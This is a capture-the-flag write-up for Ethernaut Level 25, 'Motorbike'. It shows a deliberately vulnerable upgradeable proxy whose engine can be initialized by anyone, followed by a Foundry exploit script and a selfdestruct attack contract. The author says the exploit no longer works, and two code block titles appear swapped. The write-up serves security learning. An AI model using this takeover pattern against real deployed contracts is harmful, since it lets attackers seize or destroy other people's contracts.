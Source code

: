 # Level 25 - Motorbike ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/25" %}

### Level Setup

{% hint style="info" %}
Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to `selfdestruct` its engine and make the motorbike unusable ?

Things that might help:

* [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)
* [UUPS](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) upgradeable pattern
* [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Motorbike.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-25

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-25

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/09fcb69b4dd3a7ec05017ff17f3d0f09b85a740a/src/Level25.sol" %}

{% code title="src/Level25.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level25.sol";

// ================================================================
// │                       LEVEL 25 - MOTORBIKE                   │
// ================================================================
interface IEngine {
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
    function destroyEngine() external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();

        // Replace the slot number with the specific storage slot you want to read
        bytes32 storageSlot = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

        // Use the load cheatcode to get the value at the storage slot
        bytes32 value = vm.load(targetContractAddress, storageSlot);

        IEngine engine = IEngine(address(uint160(uint256(value))));

        engine.initialize();

        // **************************************************************************************
        // This no longer works because SELFDESTRUCT only works in the constructor of a contract
        // **************************************************************************************
        AttackContract attackContract = new AttackContract();
        engine.upgradeToAndCall(address(attackContract), abi.encodeWithSignature("destroyEngine()"));

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/09fcb69b4dd3a7ec05017ff17f3d0f09b85a740a/script/Level25.s.sol" %}

{% code title="script/Level25.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// ================================================================
// │                       LEVEL 25 - MOTORBIKE                   │
// ================================================================
contract AttackContract {
    constructor() {
        selfdestruct(payable(msg.sender));
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Can't be completed right now since `selfdestruct()` only works in the constructor.
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_25_Motorbike.md" %}
